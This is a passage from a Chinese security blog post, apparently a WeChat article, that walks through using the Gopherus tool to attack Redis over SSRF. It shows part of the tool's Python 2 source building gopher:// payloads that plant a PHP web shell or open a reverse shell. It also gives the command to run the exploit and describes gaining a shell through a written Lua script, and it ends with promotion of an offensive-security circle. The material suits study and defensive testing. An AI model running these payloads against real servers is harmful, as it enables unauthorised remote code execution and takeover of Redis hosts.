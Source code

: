```
        print "\033[04m" +"gopher://127.0.0.1:6379/_" + finalpayload+ "\033[0m"
        print "\033[01m"+"\nWhen it's done you can get PHP Shell in /shell.php at the server with `cmd` as parmeter. "+ "\033[0m"
        print "\n" + "\033[41m" +"-----------Made-by-SpyD3r-----------"+"\033[0m"
    print "\033[01m"+"\nReady To get SHELL\n"+ "\033[0m"
    what = raw_input("\033[35m" +"What do you want?? (ReverseShell/PHPShell): "+ "\033[0m")
    what = what.lower()
    if("rev" in what):
        get_Redis_ReverseShell()
    elif("php" in what):
        get_Redis_PHPShell()
    else:
        print "\033[93m" +"Plz choose between those two"+ "\033[0m"
        exit()
```  
  
运行gopherus  
```
python2 gopherus.py --exploit redis
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU9HiabHicghO61zG96hG318zU5XE7gEtM6upToaggKkbffJMqT9yOPsnY17nEicTBYoSxk17gnqun9A/640?wx_fmt=png&from=appmsg "")  
  
  
  
之后我们直接传进去即可反弹shell成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU9HiabHicghO61zG96hG318zI3o5Oz03ibch5icqP30ia432zCMQjWmCu8sUQqAQF8ZibPhOwMKdhOicI8Q/640?wx_fmt=png&from=appmsg "")  
  
  
再次用visit访问url就会运行新写入的lua脚本反弹shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU9HiabHicghO61zG96hG318z5nWv03hyYfaVWZ0DChVrXO4zjmpRYia03vCTQemxqoweoicWyV7OPKvg/640?wx_fmt=png&from=appmsg "")  
  
  
  
我们是神农安全，  
**点赞 + 在看**  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap086iau0Y0jfCXicYKq3CCX9qSib3Xlb2CWzYLOn4icaWruKmYMvqSgk1I0Aw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**内部圈子介绍**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap08Z60FsVfKEBeQVmcSg1YS1uop1o9V1uibicy1tXCD6tMvzTjeGt34qr3g/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
圈子专注于更新  
**src/红蓝攻防**  
相关：  
  